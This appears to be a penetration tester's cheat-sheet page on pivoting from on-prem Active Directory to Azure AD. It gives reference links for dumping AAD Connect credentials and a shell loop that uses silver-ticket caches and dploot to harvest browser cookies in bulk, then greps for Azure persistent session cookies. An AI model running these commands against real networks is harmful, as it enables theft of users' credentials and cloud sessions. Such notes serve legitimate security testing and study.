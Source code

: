 # On-Prem -> Cloud

- [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)
- [https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/](https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/)
- [https://nullg0re.com/2024/05/cracking-zero-trust-on-prem-to-azure-pivots-with-responder-and-evilginx2/](https://nullg0re.com/2024/05/cracking-zero-trust-on-prem-to-azure-pivots-with-responder-and-evilginx2/)




## Dumping AAD Connect Creds

- [https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/](https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/)
- [https://aadinternals.com/post/adsync/](https://aadinternals.com/post/adsync/)
- [https://imphash.medium.com/shooting-up-on-prem-to-cloud-detecting-aadconnect-creds-dump-422b21128729](https://imphash.medium.com/shooting-up-on-prem-to-cloud-detecting-aadconnect-creds-dump-422b21128729)
- [https://rioasmara.com/2020/07/07/azure-ad-connect-post-exploitation-for-dcsync/](https://rioasmara.com/2020/07/07/azure-ad-connect-post-exploitation-for-dcsync/)
- [[PDF] Hacking Azure AD via Active Directory (Dirk-jan Mollema, @_dirkjan)](https://dirkjanm.io/assets/raw/TR19-Im%20in%20your%20cloud.pdf)



### Tools

- [https://github.com/dirkjanm/adconnectdump](https://github.com/dirkjanm/adconnectdump)
- [https://github.com/Hagrid29/DumpAADSyncCreds](https://github.com/Hagrid29/DumpAADSyncCreds)




## Mass Cookies Harvesting

Collect with [dploot](https://github.com/zblurx/dploot):

```
$ ls silver_tickets/
SRV01.ccache   SRV02.ccache   PC01.ccache
$ for st in `ls silver_tickets/`; do comp=`basename $st .ccache`; KRB5CCNAME=silver_tickets/$st proxychains4 dploot browser -d megacorp.local -no-pass -use-kcache $comp.megacorp.local -pvk ../key.pvk -show-cookies > browsers_$comp.out; done
```

Search for `ESTSAUTHPERSISTENT` cookies:

```
$ grep -nr --include '*.out' ESTSAUTHPERSISTENT -A3 | grep -e Creation -e Expires
```
